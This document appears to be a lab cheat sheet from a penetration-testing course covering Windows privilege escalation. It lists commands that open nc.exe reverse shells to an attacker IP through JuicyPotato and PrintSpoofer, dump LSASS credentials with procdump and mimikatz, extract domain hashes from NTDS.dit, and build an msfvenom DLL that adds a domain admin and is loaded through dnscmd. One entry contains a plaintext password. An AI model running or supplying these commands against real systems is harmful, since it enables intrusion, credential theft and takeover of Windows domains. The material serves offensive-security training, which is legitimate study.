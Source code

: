 ## Handy Commands

| **Command**                                                                                                                                                                           | **Description**                                            |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------- |
| `mssqlclient.py sql_dev@10.129.43.30 -windows-auth`                                                                                                                                   | Connect using mssqlclient.py                               |
| `enable_xp_cmdshell`                                                                                                                                                                  | Enable xp_cmdshell with mssqlclient.py                     |
| `xp_cmdshell whoami`                                                                                                                                                                  | Run OS commands with xp_cmdshell                           |
| `c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 443 -e cmd.exe" -t *`                                                             | Escalate privileges with JuicyPotato                       |
| `c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"`                                                                                                               | Escalating privileges with PrintSpoofer                    |
| `procdump.exe -accepteula -ma lsass.exe lsass.dmp`                                                                                                                                    | Take memory dump with ProcDump                             |
| `sekurlsa::minidump lsass.dmp` and `sekurlsa::logonpasswords`                                                                                                                         | Use MimiKatz to extract credentials from LSASS memory dump |
| `dir /q C:\backups\wwwroot\web.config`                                                                                                                                                | Checking ownership of a file                               |
| `takeown /f C:\backups\wwwroot\web.config`                                                                                                                                            | Taking ownership of a file                                 |
| `Get-ChildItem -Path ‘C:\backups\wwwroot\web.config’ \| select name,directory, @{Name=“Owner”;Expression={(Ge t-ACL $_.Fullname).Owner}}`                                             | Confirming changed ownership of a file                     |
| `icacls “C:\backups\wwwroot\web.config” /grant htb-student:F`                                                                                                                         | Modifying a file ACL                                       |
| `secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL`                                                                                                            | Extract hashes with secretsdump.py                         |
| `robocopy /B E:\Windows\NTDS .\ntds ntds.dit`                                                                                                                                         | Copy files with ROBOCOPY                                   |
| `wevtutil qe Security /rd:true /f:text \| Select-String "/user"`                                                                                                                      | Searching security event logs                              |
| `wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 \| findstr "/user"`                                                                                       | Passing credentials to wevtutil                            |
| `Get-WinEvent -LogName security \| where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*' } \| Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}` | Searching event logs with PowerShell                       |
| `msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll`                                                                              | Generate malicious DLL                                     |
| `dnscmd.exe /config /serverlevelplugindll adduser.dll`                                                                                                                                | Loading a custom DLL with dnscmd                           |
| `wmic useraccount where name="netadm" get sid`                                                                                                                                        | Finding a user's SID                                       |
| `sc.exe sdshow DNS`                                                                                                                                                                   | Checking permissions on DNS service                        |
| `sc stop dns`                                                                                                                                                                         | Stopping a service                                         |
| `sc start dns`                                                                                                                                                                        | Starting a service                                         |